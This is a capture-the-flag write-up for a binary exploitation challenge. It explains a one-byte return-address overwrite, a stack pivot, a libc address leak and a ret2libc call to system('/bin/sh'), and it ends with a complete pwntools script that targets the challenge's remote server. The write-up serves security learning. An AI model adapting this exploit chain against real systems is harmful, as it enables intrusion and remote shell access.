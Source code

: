 # Help


This one's a whirlwind, and it's a bit complex, so I'll lay it out in parts.

1. Lots and lots of functions. The structure of the execution of the program is a little nested. Honestly, it doesn't matter much or at all. There are two functions we must focus on - ok, and finallyyouhelpedme
1a - ok. This function has a global counter, on the sixth time it runs, we get an input. It reads 0x29 bytes into rbp-0x20 - giving us full control over RBP and partial control over the return address. By partial, I mean one byte. This is enough to send the binary to 0x40017XX, as the return address saved begins with 0x40017 and we can overwrite one byte of it. What can we do with this?

1b - finallyyouhelpedme. It has two inputs. One that was irrelevant for what I did, but probably useful for other methods. It read into a global variable. The second one is a proper buffer overflow - 0x40 bytes read into rbp-0x20. This gives us control over saved RBP, and enough to make a 24-byte ROP chain.

finallyyouhelpedme is never called - we must redirect ok's return address into it. We can overwrite the first byte of the return address with 0x1f, sending it into the 4th instruction of finallyyouhelped me, where our input begins. I jumped here so that I didn't have to deal with stack alignment, nor things messing up between rbp and rsp.

Now what? a 24-byte ropchain is enough to do poprdi + got address + plt address and leak a libc address, but we cant return back to a function for another input after that.

Wait! The input is at rbp-0x20. 0x20 is 32 - that's exactly enough to do poprdi + got address + plt address + address of finallyyouhelpedme. Perfect!

What we'll do here is called a stack pivot. We can change the location of rsp via a leave ; ret gadget in order to relocate the stack and force the program to start popping ret addresses from somewhere else.
dayYesterday at 18:07
In order to do that, we need to know whereabouts our input is. I accomplished this by controlling saved RBP. Let's think back to our first input in ok. We get full control of saved RBP here, and this will be the RBP that gets passed into finallyouhelpedme(as we ret into the instruction after the whole push rbp;mov rbp,rsp mumbo jumbo). Thus, we can force the stack into a specific place. As there's no PIE, the segment mapped RW is constant, so we can set it somewhere int here.

Ok, back to before. We force RBP into a known place inside of a RW segment, so we know exactly where our input is. Now, we can send:

rop chain + address of input - 8 + leave ret

leave will set rsp to rbp, then pop rbp off the stack. Setting it to input - 8 means some random value will be popped off.

In order to stop problems with this later, we ret straight into the beginning of the finallyyouhelpedme function. As this moves rbp up to rsp, it causes anything we might've messed up in the stack(like that random rbp value...) to be automatically fixed.

Our rop chain will then be poprdi + got address + puts@plt + finallyouhelpedme address

Now, we will receive a libc address(write, specifically) and another input. We can calculate the libc base off of this, and use the classic payload - system("/bin/sh").

Final exploit:

1. Send 0x20 bytes of junk + address in RW segment + 0x1f
2. Send poprdi + got address + puts@plt + finallyyouhelpedme address + address of input - 8 + leave;ret gadget address
3. Receive libc address. Calculate base. Send dummy input(first input, useless) then send 0x28 bytes of junk(rbp doesnt matter anymore) + poprdi + /bin/sh address + system address

Script below.
```python
from pwn import *
import sys
mode = sys.argv[1]
NUM_TO_RBP = 0x20
NUM_TO_RET = NUM_TO_RBP + 8
pad1 = b'A' * NUM_TO_RBP
pad2 = b'A' * NUM_TO_RET
fakestack = 0x602000 - 0x200
poprdi = 0x0000000000400943 # pop rdi ; ret
ret = 0x00000000004005b6 # ret
leaveret = 0x0000000000400778 # leave ; ret
e = ELF("./chall2")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else '/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6')
p = e.process() if mode == 'local' else remote('europe.pwn.zh3r0.ml', 7412)
payload = p64(fakestack) + b'\x1f'
p.recv()
p.sendline(pad1 + payload)
p.recv()
#leak = flat(fakestack, poprdi, e.got['write'],e.plt['puts'] , e.symbols['finallyyouhelpedme'],word_size=64)
bufaddr = fakestack-0x20
changer = flat(bufaddr-8,leaveret,word_size=64)
chain = flat(poprdi, e.got['write'],e.plt['puts'],e.symbols['finallyyouhelpedme'],word_size=64)
payload = chain
payload += b'B' * (NUM_TO_RBP - len(chain))
payload += changer
p.sendline(payload)
if mode == 'remote':
    p.recvlines(2)
output = p.recvline()[:-1] + b'\x00\x00'
leak = u64(output)
libcbase = leak - libc.symbols['write']
log.info(f"Libc puts leak: {hex(leak)}")
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
final = flat(poprdi, next(libc.search(b"/bin/sh\x00")),libc.symbols['system'],word_size=64)
pause()
p.sendline('t')
p.recvlines(2)
p.sendline(pad2 + final)
p.interactive()
```
